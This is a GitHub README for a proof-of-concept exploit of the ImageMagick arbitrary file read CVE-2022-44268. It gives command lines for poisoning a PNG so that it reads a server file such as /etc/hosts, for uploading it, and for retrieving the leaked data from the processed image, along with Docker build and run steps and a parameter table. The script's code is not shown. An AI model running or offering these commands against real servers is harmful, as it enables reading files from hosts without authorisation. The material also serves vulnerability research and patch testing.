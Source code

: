 # CVE-2022-44268 🧙‍♂️

CVE-2022-44268 ImageMagick Arbitrary File Read - Proof of Concept exploit

### Video 📼
https://youtu.be/quKxwNAMBIA


## Usage 🛠 

Poison the image ☣️
```
python3 CVE-2022-44268.py --image imagetopoison.png --file-to-read /etc/hosts --output poisoned.png
```
```
Upload poisoned PNG image.
```
Check if exploit was successful 🗡
```
python3 CVE-2022-44268.py --url http://vulnerable-imagemagick.com/uploads/vulnerable.png
```

## Running from Docker :whale:

Build
```
docker build -t cve-2022-44268 .
```

Run
```
docker run -v $(pwd)/data:/data -ti cve-2022-44268 --image /data/random.png --file-to-read "/etc/hosts" --output /data/poisoned.png
```

## Parameters 🧰 

Parameter | Description | Type
------------ | ------------- | -------------
--url | The URL of the uploaded PNG image | String
--image | Input PNG file | File
--output | Output PNG file | File
--file-to-read | File to read from vulnerable host | String


## Contact Me📇

[Twitter - Milan Jovic](https://twitter.com/milanshiftsec)

[LinkedIn - Milan Jovic](https://www.linkedin.com/in/milan-jovic-sec/)

[ShiftSecurityConsulting](https://shiftsecurityconsulting.com)

#### Educational purposes only and cannot be used for law violation or personal gain.
#### The author of this project is not responsible for any possible harm caused by the materials of this project.
#### More details: https://www.metabaseq.com/imagemagick-zero-days/

